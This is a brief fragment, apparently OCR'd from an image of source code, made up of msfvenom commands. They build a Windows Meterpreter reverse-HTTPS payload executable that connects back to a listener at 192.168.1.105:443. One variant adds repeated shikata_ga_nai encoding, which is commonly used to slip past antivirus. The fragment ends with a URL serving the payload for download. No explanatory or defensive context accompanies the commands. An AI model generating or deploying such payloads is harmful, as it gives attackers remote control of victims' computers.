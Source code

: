 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
http://192.168.1.105:8080/payload.exe
